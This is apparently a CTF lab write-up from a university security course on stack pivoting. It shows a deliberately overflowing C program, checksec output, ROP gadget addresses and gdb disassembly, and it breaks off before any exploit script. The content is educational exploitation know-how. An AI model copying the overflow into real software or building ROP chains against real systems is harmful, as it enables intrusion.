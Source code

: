 ```yaml
---
title: Simple PWN 0x35(2023 Lab - Stack Pivot)
tags: [eductf, CTF, PWN]

category: "Security > Course > NTU CS > PWN"
---
```


# Simple PWN 0x35(2023 Lab - Stack Pivot)
## Background
[Simple PWN - 0x09(stack pivoting)](https://hackmd.io/@SBK6401/rylybxgji)
[Simple PWN - 0x10(seccomp/Lab - rop2win)](https://hackmd.io/@SBK6401/H1NX6Bloj)
## Source code
```cpp
#include <stdio.h>
#include <unistd.h>

int main(void)
{
	char buf[0x20];
	read(0, buf, 0x80);
	return 0;
}
```
## Recon
這一題助教是預設我們必須要使用stack pivot的技巧拿到flag，不過沒有時間設定seccomp，所以我們自己假裝只能使用read / write / open這三個syscall
1. checksec + file
    ```bash
    $ checksec chal
    [*] '/mnt/d/NTU/Second Year/Computer Security/PWN/Lab2/lab_stack_pivot/share/chal'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    $ file chal
    chal: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=26fa8e6daa97baf7a26596ea91af5703dd932327, for GNU/Linux 3.2.0, not stripped
    ```
    首先可以看到該binary是statically link，所以直覺是利用ROP chain拿到shell，不過仔細看source code會發現BOF的長度顯然不太夠我們蓋成shell，所以需要用到stack pivot的技巧，控制RBP跳到其他的地方繼續寫
2. 找gadget
    ```python
    leave_ret = 0x0000000000401cfc
    pop_rdi_ret = 0x0000000000401832
    pop_rsi_ret = 0x000000000040f01e
    pop_rax_ret = 0x0000000000448d27
    pop_rdx_ret = 0x000000000040173f
    syscall_ret = 0x0000000000448280
    ```
    這邊的重點是syscall ret這個gadget，其實他不是syscall完之後直接ret，而是在經過一些判斷才會進到ret，這個可以從gdb看出來
    ```bash
    gef➤  x/10i 0x448280
       0x448280 <read+16>:  syscall
    => 0x448282 <read+18>:  cmp    rax,0xfffffffffffff000
       0x448288 <read+24>:  ja     0x4482e0 <read+112>
       0x44828a <read+26>:  ret
    ```